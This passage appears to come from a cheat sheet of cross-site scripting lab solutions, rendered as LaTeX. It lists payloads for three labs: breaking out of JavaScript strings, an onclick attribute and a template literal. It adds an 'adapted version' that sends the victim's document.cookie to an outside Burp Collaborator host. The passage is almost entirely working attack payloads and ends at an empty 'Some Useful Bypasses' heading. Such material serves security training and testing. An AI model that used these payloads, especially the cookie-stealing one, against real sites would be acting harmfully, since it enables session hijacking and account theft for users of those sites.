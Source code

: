 \documentclass[
  letterpaper,
]{article}
\begin{document}
\subsubsection{13. Reflected XSS into a JavaScript string with angle
brackets and double quotes HTML-encoded and single quotes
escaped}\label{13-reflected-xss-into-a-javascript-string-with-angle-brackets-and-double-quotes-html-encoded-and-single-quotes-escaped}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
\';alert(1);//
\'-alert(1)//
\end{Verbatim}

\textbf{Adapted version}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
\';document.location=`http://burp.oastify.com/?c=`+document.cookie;//
\end{Verbatim}

\subsubsection{14. Stored XSS into onclick event with angle brackets and
double quotes HTML-encoded and single quotes and backslash
escaped}\label{14-stored-xss-into-onclick-event-with-angle-brackets-and-double-quotes-html-encoded-and-single-quotes-and-backslash-escaped}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
http://foo?&apos;-alert(1)-&apos;
\end{Verbatim}

\subsubsection{15. Reflected XSS into a template literal with angle
brackets, single, double quotes, backslash and backticks
Unicode-escaped}\label{15-reflected-xss-into-a-template-literal-with-angle-brackets-single-double-quotes-backslash-and-backticks-unicode-escaped}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
${alert(1)}
\end{Verbatim}

\subsection{Some Useful Bypasses}\label{some-useful-bypasses}
\end{document}
